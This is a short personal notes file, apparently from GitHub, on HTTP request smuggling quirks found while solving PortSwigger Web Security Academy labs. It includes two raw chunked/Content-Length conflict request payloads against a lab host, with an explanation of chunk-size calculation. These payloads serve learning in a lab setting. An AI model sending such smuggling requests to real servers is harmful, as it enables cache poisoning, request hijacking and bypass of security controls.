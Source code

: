 # Mad security findings

This is crazy stuff I found out in the wild. I will put here only the ones, which are the most crazy in my opinion and caused my brain to question reality. Most of those I found out during solving Portswigger’s Web security academy labs or another sandbox.


## Request Smuggling
- Requests with `Transfer-Encoding: chunked` need to have **two(!!!)** additional newlines after ending `0`.
- Chunked requests behave differently when they are multiline or single line! Consider following examples:

```
POST / HTTP/1.1
Host: some-token.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

5
GPOST
0


```

You can notice above GPOST is stated 5 - this exactly represents character size of `GPOST`. If you would like to include also following newline, your request would be invalid. Now lets take a look for a multiline example:

```
POST / HTTP/1.1
Host: some-token.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

a
GPOST
FOO
0


```

You can notice `a` above `GPOST`. It is hexadecimal representation of 10. But wait... why? Okay.. lets count: `GPOST (5 chars)` + `newline (1 char)` + `FOO (3 chars)` + `newline (1 char)`!!! Lesson to learn: Multiline chunked requests need additional ending newline to be included in your size calculation otherwise request will be invalid!


